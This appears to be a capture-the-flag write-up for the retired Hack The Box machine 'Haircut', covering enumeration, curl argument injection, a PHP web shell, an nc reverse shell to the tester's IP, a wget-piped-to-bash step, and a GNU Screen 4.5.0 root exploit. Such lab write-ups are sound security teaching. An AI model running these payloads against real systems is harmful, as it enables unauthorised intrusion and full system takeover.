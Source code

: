 # Haircut

This is the write-up for the box Haircut that got retired at the 30th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.24    haircut.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haircut.nmap 10.10.10.24
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we only see a photo of a person and nothing interesting in the source.
Lets search for hidden paths and PHP files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.24/ -w dir /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

We get back the path _/uploads_ with HTTP Code 403 Forbidden, a page _/test.html_, where its a picture of hair and _/exposed.php_ where we see this:

![Exposed page](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-1.png)

When we click on _Go_, we get back the _test.html_ site.
If we start a web server and input the IP of our server in there it tries to connect to us.

Trying special characters like semicolon and pipes get filtered with a warning, that those characters can't be used.
By inputting anything into the field, we get the an error from `curl`:

![Curl identified](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-2.png)

This means this sends a `curl` command to get the files and this is what we want to abuse.
Lets send this to _Burpsuites Repeater_ to try some things with _cURL_.

### Getting a reverse shell

We can try to put parameters of _cURL_ in there:
```markdown
formurl=--version&submit=Go
```

This works and gives us the version number of cURL, so lets try to upload something on the _/uploads_ directory with it.
```markdown
formurl=-o uploads/test.html http://10.10.14.23:8000/test.html&submit=Go
```

Requesting the test.html file we get it back, so we can upload a PHP file to get command execution.
The web shell _shell.php_ file I will upload has this code in it:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

Now we can request the file with the command `whoami` to test it:
```markdown
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

This works and we can send a command to start a reverse shell on the box.
```markdown
GET /uploads/shell.php?cmd=nc -e /bin/sh 10.10.14.23 9001 HTTP/1.1
```

We are on the box as _www-data_.

## Privilege Escalation

We will execute any Linux enumeration script to get an attack surface:
```markdown
wget http://10.10.14.23:8000/LinEnum.sh | bash
```

Looking for binaries with the _Setuid bit_ enabled:
```markdown
find / -perm -4000 2>/dev/null | xargs ls -la
```

The binay `screen` has the setuid bit set and explicitly the version number 4.5.0 displayed which has a privilege escalation vulnerability that we will exploit. The explanation for this exploit can be found through `searchsploit screen` on the **GNU Screen 4.5.0 - Local Privilege Escalation (PoC)** exploit.

For this we need to create some files first. They are in this folder.
- libhax.c:
- rootshell.c

Compiling the code:
```markdown
gcc rootshell.c -o rootshell

gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

Now we created the Shared object file _libhax.so_ and the binary _rootshell_.

Executing these commands one after another and in the end executing the _rootshell_ binary:
```markdown
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

This will start a shell as root!

